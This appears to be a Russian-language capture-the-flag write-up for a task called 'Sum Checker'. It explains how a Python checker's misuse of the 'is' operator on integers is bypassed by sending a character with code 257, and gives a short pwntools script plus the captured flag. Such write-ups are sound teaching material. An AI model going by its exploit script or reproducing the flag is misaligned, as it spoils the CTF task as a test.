 # Sum Checker
_Похоже, разработчик этого сервиса полагается на коммутативность для обеспечения безопасности..._

_nc sum-checker.tasks.2021.ctf.cs.msu.ru 20002_

[checker.py](checker.py)

### Solution
В файле checker.py наблюдаем сравнение пользовательского ввода (после преобразований) оператором is, чтобы получить флаг, нам нужно выполнение следующего условия:
```python
sum([ord(i) for i in our_input]) % 260 is sum([ord(i) for i in our_input[::-1]]) % 260 == False
```

Оператор is используют, чтобы удостовериться, что переменные указывают на один и тот же объект в памяти. Python указывает на один и тот же объект типа int, если его значение не превышает один байт (2**8).
Таким образом, нам остаётся написать скрипт, который отправляет символ с кодом ∈ \[257-259].

[pwn1.py](pwn1.py)
```python
import pwn

c = pwn.connect('sum-checker.tasks.2021.ctf.cs.msu.ru', 20002)
c.recvuntil(':')
c.sendline(bytes(chr(257).encode()))
flag = c.recvuntil('}').decode()
print(flag)
```


`
Flag: MSKCTF{pr3d3f1n3d_c0n$t4nt$_pai8eege2a}
`

